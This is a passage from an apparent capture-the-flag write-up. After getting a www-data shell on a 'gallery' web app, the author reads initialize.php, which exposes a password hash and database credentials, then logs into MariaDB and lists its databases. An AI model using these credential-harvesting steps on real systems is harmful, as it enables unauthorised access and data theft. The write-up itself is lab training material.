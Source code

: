 ```
tmp
usr
var
vmlinuz
vmlinuz.old
$ whoami
www-data
```

Now after having access we could try to get a hold of the database tables. When checking */var/www/html/gallery* I was able to check the config.php, which made clear that it would require the initialize.php. When cat'ing that php we see:

```
$ cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```
In here we get insight on some interesting credentials, which we can use to login to the server. We use 

```
$ mysql -u gallery_user -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 304
Server version: 10.3.39-MariaDB-0ubuntu0.20.04.2 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

and are in. Now we check for the existing databases

```
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| gallery_db         |
| information_schema |
+--------------------+
2 rows in set (0.000 sec)
```
